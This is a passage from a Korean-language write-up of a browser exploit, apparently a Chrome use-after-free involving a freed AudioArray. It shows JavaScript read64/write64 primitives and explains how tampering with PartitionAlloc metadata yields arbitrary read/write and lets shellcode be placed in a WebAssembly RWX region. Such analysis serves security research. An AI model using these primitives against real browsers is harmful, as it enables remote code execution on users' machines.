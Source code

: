 그리고 이전에 free된 AudioArray 데이터의 raw pointer 주소를 포함하는 이전에 생성된 BigUint64Array를 전달하는 kickPayload 함수를 실행합니다.

```jsx
function read64(rwHelper, addr) {
	rwHelper[0] = addr;
	var tmp = new BigUint64Array;
	tmp.buffer;
	gcPreventer.push(tmp);
	return byteSwapBigInt(rwHelper[0]);
}
 
function write64(rwHelper, addr, value) {
	rwHelper[0] = addr;
	var tmp = new BigUint64Array(1);
	tmp.buffer;
	tmp[0] = value;
	gcPreventer.push(tmp);
}
```

이후 free된 객체의 PartitionPage 메타 데이터를 조작하여 exploit을 수행합니다. 다른 오브젝트의 주소를  BigUint64Array에 기록하고 새 8 바이트 객체를 만든 뒤 인덱스 0에있는 값을 다시 읽으면 이전에 설정된 주소에서 값을 읽습니다. 이 단계에서 인덱스 0에 무언가가 기록되면이 값은 이전에 설정된 주소에 대신 기록됩니다. 그렇게 해서 arbitrary read/write를 만들고 wasm 코드를 이용해 rwx 영역에 원하는 쉘코드를 적고 exploit할 수 있습니다.